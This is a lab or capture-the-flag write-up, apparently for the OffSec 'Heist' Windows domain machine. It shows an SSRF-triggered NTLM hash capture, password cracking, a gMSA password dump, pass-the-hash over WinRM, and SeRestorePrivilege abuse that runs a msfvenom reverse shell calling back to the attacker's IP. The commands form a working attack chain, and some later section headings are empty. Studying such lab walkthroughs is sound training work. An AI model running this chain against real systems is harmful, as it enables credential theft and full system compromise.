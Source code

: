 #Pwned! 
```IP
192.168.167.165
```
# Enumeration
## SMB
```
nxc smb 192.168.167.165 -u '' -p '' 
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219093954.png?raw=true)
Nothing interesting
## HTTP 8080
We have a web browser that doesn't connect to internet. Let's see if it connects to our machine. 
# Exploitation
We start responder in our local machine:
```
sudo responder -I tun0
```
and then try to connect to our machine:
```
http://192.168.167.165:8080/?url=http://192.168.45.246/test
```
And we get a NTLMv3 hash:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219094300.png?raw=true)
Let's try to crack it
```
john --wordlist=/usr/share/wordlists/rockyou.txt files/enox.hash
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219094313.png?raw=true)
Now we have the following credentials:
```
enox:california
```
## WINRM
We can use our discovered credentials with nxc to assess that we have indeed access to the machine:
```
nxc winrm 192.168.167.165 -u 'enox' -p 'california'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219094548.png?raw=true)

# PrivEsc

## Manual
```
evil-winrm -i 192.168.167.165 -u enox -p 'california'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219094828.png?raw=true)
We get the local flag
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219094900.png?raw=true)
There is too an `application` directory and a `todo.txt` file:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219095142.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219095355.png?raw=true)

## Automated
### Bloodhound
After some manual enumeration we will run bloodhound:
```
bloodhound-python -d heist.offsec -c all -u enox -p 'california' -ns 192.168.167.165 --zip
```
We mark enox user as owned and run `Shortest Paths to Domain Admins from Owned Principals`:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219100927.png?raw=true)
In order to exploit the DCSync vulnerability we would have to be a local admin, and we are not. Checking the Outbound Object Control of our user we notice an odd Group Delegated Object Control, which can be exploited following the Bloodhound recommendations:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219102257.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219102321.png?raw=true)
It is affecting specifically the user svc_apache. We download an already compiled binary as shown below:
```
iwr -uri https://github.com/expl0itabl3/Toolies/raw/refs/heads/master/GMSAPasswordReader.exe -outfile GMSAPasswordReader.exe
```
And then run the exploit:
```
.\GMSAPasswordReader.exe --accountname svc_apache
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219102530.png?raw=true)
```
C9C9F97308956B4AEDD53C1351F47A84
```
Because svc_apache is a service account we will type a dollar sign at the end of it:
```
evil-winrm -i 192.168.167.165 -u svc_apache$ -H C9C9F97308956B4AEDD53C1351F47A84
```
And now we have access again as svc_apache. It contains a ps1 script in its Documents folder which seems to add the `SeRestorePrivilege`.
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219103918.png?raw=true)
And indeed it is enabled.
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219103952.png?raw=true)

```
iwr -uri https://github.com/dxnboy/redteam/raw/refs/heads/master/SeRestoreAbuse.exe -outfile SeRestoreAbuse.exe
```
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.246 LPORT=4444 -f exe > rev.exe
```
```
iwr -uri http://192.168.45.246:8000/rev.exe -outfile shell.exe
```
```
.\SeRestoreAbuse.exe C:\Users\svc_apache$\Documents\shell.exe
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219105244.png?raw=true)
And we got nt authority system:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219105350.png?raw=true)
### Peass
### Mimikatz

# Lateral Movement

